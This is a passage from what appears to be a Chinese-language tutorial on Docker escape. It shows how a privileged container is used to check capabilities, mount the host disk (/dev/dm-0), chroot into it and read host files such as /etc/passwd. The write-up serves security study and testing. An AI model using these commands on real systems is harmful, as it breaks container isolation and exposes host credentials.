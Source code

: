 
在启动后我们会进入到docker容器的bash中，在这里我们查看当前主机的docker是否为特权模式启动。`cat /proc/self/status | grep Cap`

![image-20231008151112952](Docker逃逸漏洞案例.assets/image-20231008151112952.png)


我们可以将宿主机目录挂载到该docker容器中，首先查看当前磁盘分区情况，获得宿主机分区`fdisk -l `

![image-20231008151120168](Docker逃逸漏洞案例.assets/image-20231008151120168.png)

这里我们根据分区大小得知到宿主机的磁盘为/dev/dm-0，这时可以直接挂载宿主机的磁盘

`mkdir tide`
`mount /dev/dm-0 /tide/`
`chroot /tide/`

![image-20231008151137407](Docker逃逸漏洞案例.assets/image-20231008151137407.png)


这时我们会进入一个bash会话，在这里可以查看宿主机的/etc/passwd等敏感文件
